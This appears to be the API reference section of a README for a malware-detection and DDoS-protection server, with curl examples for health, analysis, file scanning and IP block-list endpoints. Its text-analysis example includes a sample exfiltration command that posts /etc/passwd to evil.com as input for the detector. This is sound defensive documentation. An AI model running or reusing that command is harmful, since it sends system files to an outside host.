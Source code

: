 ## 🔌 API Reference

### 🏥 Health & Status

| Endpoint | Method | Description |
|----------|--------|-------------|
| `/health` | GET | Server health status |
| `/config` | GET | Current configuration |

```bash
# Check server health
curl http://localhost:8080/health

# View configuration
curl http://localhost:8080/config
```

### 🤖 Malware Detection API

| Endpoint | Method | Description |
|----------|--------|-------------|
| `/analyze` | POST | Analyze text content for malware |
| `/scan` | POST | Scan uploaded files for malware |
| `/patterns` | GET | View available detection patterns |

**Analyze Text Content:**
```bash
curl -X POST "http://localhost:8080/analyze" \
  -H "Content-Type: application/json" \
  -d '{
    "content": "curl https://evil.com --data \"$(cat /etc/passwd)\"",
    "use_ml": true
  }'
```

**Scan File:**
```bash
curl -X POST "http://localhost:8080/scan" \
  -F "file=@suspicious_script.sh"
```

**Get Detection Patterns:**
```bash
curl "http://localhost:8080/patterns"
```

### 🛡️ DDoS Protection Admin API

| Endpoint | Method | Description |
|----------|--------|-------------|
| `/admin/ddos/stats` | GET | Protection statistics |
| `/admin/ddos/ips` | GET | IP statistics and violations |
| `/admin/ddos/block/<ip>` | POST | Block an IP address |
| `/admin/ddos/unblock/<ip>` | POST | Unblock an IP address |
| `/admin/ddos/allowlist/<ip>` | POST | Add IP to allowlist |
| `/admin/ddos/blocklist/<ip>` | POST | Add IP to blocklist |
| `/admin/ddos/config` | GET/POST | View/update configuration |
